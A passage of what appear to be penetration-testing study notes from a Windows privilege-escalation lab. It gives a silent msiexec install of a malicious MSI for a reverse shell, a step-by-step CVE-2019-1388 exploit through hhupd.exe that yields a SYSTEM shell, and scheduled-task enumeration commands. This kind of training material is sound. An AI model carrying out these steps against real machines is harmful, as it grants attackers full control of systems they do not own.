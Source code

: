         ```cmd
        # transfer the MSI file to victim
        # and execute the file to get reverse shell
        msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
        ```
    
    * CVE-2019-1388:

        * privesc vuln in Windows Certificate Dialog - can be exploited using an old Microsoft-signed executable like 'hhupd.exe' that contains a cert with 'SpcSpAgencyInfo' field with hyperlink
        * first, right-click on 'hhupd.exe' and Run as Administrator
        * then, click on "Show information about the publisher's certificate" to open the cert dialog
        * in the 'General' tab, click on the hyperlink for 'Issued by' and click OK - this closes the cert dialog and launches the browser window
        * from Task Manager, we can view that the browser instance was launched as SYSTEM
        * in webpage, right-click and 'View page source' - once the page source opens in another tab, right-click again and select 'Save as' to open another dialog
        * in the File Explorer dialog, type ```C:\Windows\System32\cmd.exe``` in the filepath and hit enter - this launches cmd as SYSTEM
    
    * Scheduled Tasks:

        ```cmd
        # enumerate scheduled tasks
        schtasks /query /fo LIST /v
        ```

        ```ps
        # check scheduled tasks in PS
        Get-ScheduledTask | select TaskName,State
        ```

        ```cmd
        # check for any directories which includes files that run on a scheduled basis
        # for example, if we have a Scripts directory, check for permissions
        .\accesschk64.exe /accepteula -s -d C:\Scripts\
        ```
    
    * User/Computer Description Field:

        ```ps
        # checking local user desc field
        Get-LocalUser
